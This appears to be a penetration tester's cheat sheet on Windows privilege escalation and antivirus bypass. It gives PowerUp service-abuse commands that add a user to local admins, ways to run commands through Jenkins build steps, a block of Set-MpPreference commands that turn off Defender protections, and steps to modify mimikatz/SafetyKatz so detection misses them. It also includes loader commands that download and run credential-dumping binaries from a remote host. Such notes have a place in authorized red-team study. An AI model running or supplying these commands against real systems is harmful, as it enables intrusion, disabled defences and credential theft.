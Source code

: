 # Local Privilege Escalation / AV Bypass

## Ways for local privesc

* Missing patches
* Automated deployment (e.g. C:\Windows\panther\unattend.xml, C:\Windows\Panther, C:\Windows\Panther\UnattendGC, C:\Windows\System32\sysprep\Panther, s ) and AutoLogon passwords in clear text in Windowds Registry
* AlwaysInstallElevated (Any user can run MSI as SYSTEM)
* Misonfigured Services (e.g. Unquoted Service path, Permissions with Services/Directories
* DLL Hijacking                 &#x20;
* Tools: \
  PowerUp - . .\PowerUp.ps1 Invoke-AllCheck\
  BeRoot - .\beRoot.exe\
  Privesc - . .\PrivEsc.ps1 Invoke-PrivEsc\
  Seatbelt - .\seatbelt.exe all&#x20;

## Service Issues using PowerUp

**Do all checks**\
. .\PowerUp.ps1\
Invoke-AllChecks

The Parameter "StartName" is the privilege e.g. LocalSystem\
The Parameter "CanRestart" is useful so we can restart it on our own and dont have to restart machine/wait until the service is restarted

**Get services with unquoted paths an a space in their name**\
GetServiceUnquoted -Verbose\
Get-WmiObject -Class win32\_service | select pathname

**Get services where the current user can write to its binary path or change arguments to the binary**\
Get-ModifiableServiceFile -Verbose&#x20;

\=> Invoke-ServiceAbuse -Name 'AbyssWebServer' -UserName 'dom\username'\
\=> Add your domain user to local admin group!

**Get the services whose configuration current user can modify (e.g ACLs of the Service, maybe point service to different executable**\
****Get-ModifiableService -Verbose&#x20;



## Abusing Enterprise Applications

* If Windows based, the often run as SYSTEM or Local Administrator
* Often overlooked by the Security team
* CI/CD Tools are interesting for abuse because they often need local high privilege - e.g Jenkins
* Jenkins
  * Anonymous read rights are/were default and you could see the build executor like Windows Server....
  * No Bruteforce Protection / No lockout / No PW policy for Jenkins local accounts (Check UserID)
  * When we have admin to Jenkins Server: http://url/script => Get you to the script console, Goovy scripts can be executed
    * That code will run on the build master (not the slaves)
    * ![](<.gitbook/assets/image (6).png>)
  * Try Username:Username, Usern:ReverseOfUsername etc.
  * Try to "Configure"a  Project and add build step "Execute Windows Batch Command and enter "powershell -c \<command>&#x20;
    * http://url/job/\[ProjectName]/configure => 200 Code if we have the permissions=> Check with Burp for all Projects
    * Check all Projects with all Users
    * Put your build step as the first one, so it wil get executed no matter the errors of other steps
    *   E.g

        <figure><img src=".gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>



## **AV / Defender  Bypass**

**AMSI Bypass**\
****amsi.fail

**Disable AV Protection/Monitoring**\
Set-MpPreference -DisableRealtimeMonitoring $true

Set-MpPreference -DisableArchiveScanning 1 -ErrorAction SilentlyContinue \
Set-MpPreference -DisableBehaviorMonitoring 1 -ErrorAction SilentlyContinue \
Set-MpPreference -DisableIntrusionPreventionSystem 1 -ErrorAction SilentlyContinue \
Set-MpPreference -DisableIOAVProtection 1 -ErrorAction SilentlyContinue \
Set-MpPreference -DisableRemovableDriveScanning 1 -ErrorAction SilentlyContinue \
Set-MpPreference -DisableBlockAtFirstSeen 1 -ErrorAction SilentlyContinue \
Set-MpPreference -DisableScanningMappedNetworkDrivesForFullScan 1 -ErrorAction SilentlyContinue \
Set-MpPreference -DisableScanningNetworkFiles 1 -ErrorAction SilentlyContinue \
Set-MpPreference -DisableScriptScanning 1 -ErrorAction SilentlyContinue \
Set-MpPreference -DisableRealtimeMonitoring 1 -ErrorAction SilentlyContinue

Kill defender:\
[https://bidouillesecurity.com/disable-windows-defender-in-powershell/](https://bidouillesecurity.com/disable-windows-defender-in-powershell/)\
[https://github.com/jeremybeaume/tools/blob/master/disable-defender.ps1](https://github.com/jeremybeaume/tools/blob/master/disable-defender.ps1)

**Check Powershell Language Mode**\
$ExecutionContext.SessionState.LanguageMode

**AppLocker Policy**\
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections





**Identify Code/Strings Defender may flag**\
https://github.com/matterpreter/DefenderCheck => C# without builds\
[https://gist.github.com/daddycocoaman/108d807e89a0f9731304bc848fa219f0](https://gist.github.com/daddycocoaman/108d807e89a0f9731304bc848fa219f0) => python [https://github.com/rasta-mouse/ThreatCheck](https://github.com/rasta-mouse/ThreatCheck) => also c# without builds

DefenderCheck.exe path-to-sharpkatz.exe\
Visutal studio, CTRL + H, Replace all "Credentials" with "whatever", Scope as "Entire Solution", Replace All, Build and recheck

OutCompressedDll.ps1 for SafetyKatz\
[https://github.com/PowerShellMafia/PowerSploit/blob/master/ScriptModification/Out-CompressedDll.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/ScriptModification/Out-CompressedDll.ps1)\
Out-compressedDll mimikatz.exe > output.txt\
Copy $EncodedCompressedFile from output.txt and replace compressedMimikatzString in constants.cs of safetykatz\
Copy the byte size from the output file an replace it in program.cs on line 111 & 116\
Build and recheck

BetterSafetyKatz\
Use mimikatz\_trunk.zip and convert to base64\
Modify program.cs - add new variable with base64, comment the download code, convert base64 to bytes and pass it to zipStream

rubeus.exe - ConfuserEx [https://github.com/mkaring/ConfuserEx](https://github.com/mkaring/ConfuserEx)\


## Payload Delivery

NetLoader https://github.com/Flangvik/NetLoader - Used to load binary from filepath or URL an patch AMSI & ETW wihile executing

Loader.exe -path http://ip/safetykatz.exe

Assemblyload can be used to load NetLoader in-memory from a URL and then loads binary from filepath\
assemblyload.exe [https://github.com/KINGSABRI/AssemblyLoader](https://github.com/KINGSABRI/AssemblyLoader) ????\
assemblyload.exe http://ip/loader.exe -path http://ip/safetykatz.exe



## PrivEsc Scripts

{% embed url="https://github.com/enjoiz/Privesc" %}

. .\privesc.ps1\
Invoke-PrivEsc

{% embed url="https://github.com/AlessandroZ/BeRoot./beRoot.exe" %}

./beroot.exe

{% embed url="https://github.com/HarmJ0y/PowerUp" %}

```
. ./powerup
Invoke-allchecks
Get-ServiceUnquoted -Verbose
Get-ModifiableServiceFile -Verbose
Invoke-ServiceAbuse
Invoke-ServiceAbuse -Name 'AbyssWebServer' -UserName '<domain>\<username>'
```

{% embed url="https://github.com/S1ckB0y1337/WinPwn" %}
